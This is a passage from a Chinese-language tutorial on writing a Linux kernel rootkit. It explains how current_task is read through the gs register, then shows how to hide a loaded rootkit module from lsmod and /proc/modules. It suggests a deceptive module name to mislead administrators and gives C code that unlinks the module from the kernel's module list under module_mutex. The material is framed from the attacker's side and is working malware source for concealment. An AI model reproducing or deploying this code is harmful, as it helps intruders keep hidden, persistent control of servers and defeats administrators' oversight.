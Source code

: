 拨开 Linux 内核源码中的多层嵌套之后我们大抵能够明白该段代码的核心便是**以 gs 寄存器作为基址，取 current_task 变量偏移处值赋给 pfo_val__ 变量**，随后返回 pro_val__ 变量

那么为什么 gs 寄存器中存的地址在这个偏移上便是该进程的 task_struct 结构呢？这个和 percpu 机制有关，便不在此赘叙，大概就是每个 CPU 独立有一块地址空间，其中会存放包括当前进程的 task_struct 结构体等数据



## 0x03.模块隐藏

当我们将一个 LKM 装载到内核模块中之后，用户尤其是服务器管理员可以使用 `lsmod` 命令**发现你在服务器上留下的rootkit**

```
arttnba3@ubuntu:~/Desktop/DailyProgramming/rootkit$ sudo insmod rootkit.ko 
Password: 
arttnba3@ubuntu:~/Desktop/DailyProgramming/rootkit$ lsmod | grep 'rootkit'
rootkit                16384  0
```

虽然说我们可以把 rootkit 的名字改为「very_important_module_not_root_kit_please_donot_remove_it」一类的名字进行伪装从而通过社会工程学手段让用户难以发现异常，但是哪怕看起来再“正常”的名字也不能够保证不会被发现，因此我们需要**让用户无法直接发现我们的 rootkit**

### <a class="reference-link" name="PRE.%E5%86%85%E6%A0%B8%E4%B8%AD%E7%9A%84%E5%86%85%E6%A0%B8%E6%A8%A1%E5%9D%97%EF%BC%9Amodule%20%E7%BB%93%E6%9E%84%E4%BD%93"></a>PRE.内核中的内核模块：module 结构体

这里仅简要叙述，在内核当中使用结构体 `module` 来表示一个内核模块（定义于 `/include/linux/module.h`），多个内核模块通过成员 `list` （内核双向链表结构`list_head`，定义于`/include/linux/types.h` 中，仅有 next 与 prev 指针成员）构成双向链表结构

在内核模块编程中，我们可以通过宏 `THIS_MODULE` （定义于 `include/linux/export.h`）或者直接用其宏展开 `&amp;__list_module` 来获取当前内核模块的 module 结构体，

### <a class="reference-link" name="Step-I.%20/proc/modules%20%E4%BF%A1%E6%81%AF%E9%9A%90%E8%97%8F"></a>Step-I. /proc/modules 信息隐藏

Linux 下用以查看模块的命令 `lsmod` 其实是从 `/proc/modules` 这个文件中读取并进行整理，该文件的内容来自于内核中的 module 双向链表，那么我们只需要将 rootkit 从双向链表中移除即可完成 procfs 中的隐藏

熟悉内核编程的同学应该都知道 `list_del_init()` 函数用以进行内核双向链表脱链操作，该函数定义于 `/include/linux/list.h` 中，多重套娃展开后其核心**主要是常规的双向链表脱链**，那么在这里我们其实可以直接手写双向链表的脱链工作

我们还需要考虑到多线程操作的影响，阅读 `rmmod` 背后的系统调用 `delete_module` 源码（位于 `kernel/module.c` 中），观察到其进入临界区前使用了一个互斥锁变量名为 `module_mutex`，我们的 unlink 操作也将使用该互斥锁以保证线程安全（毕竟我们进来不是直接搞破坏的hhh）

在模块初始化函数末尾添加如下：

```
static int __init rootkit_init(void)
`{`
...

    // unlink from module list
    struct list_head * list = (&amp;__this_module.list);
    mutex_lock(&amp;module_mutex);
    list-&gt;prev-&gt;next = list-&gt;next;
    list-&gt;next-&gt;prev = list-&gt;prev;
    mutex_unlock(&amp;module_mutex);

    return 0;
`}`
```
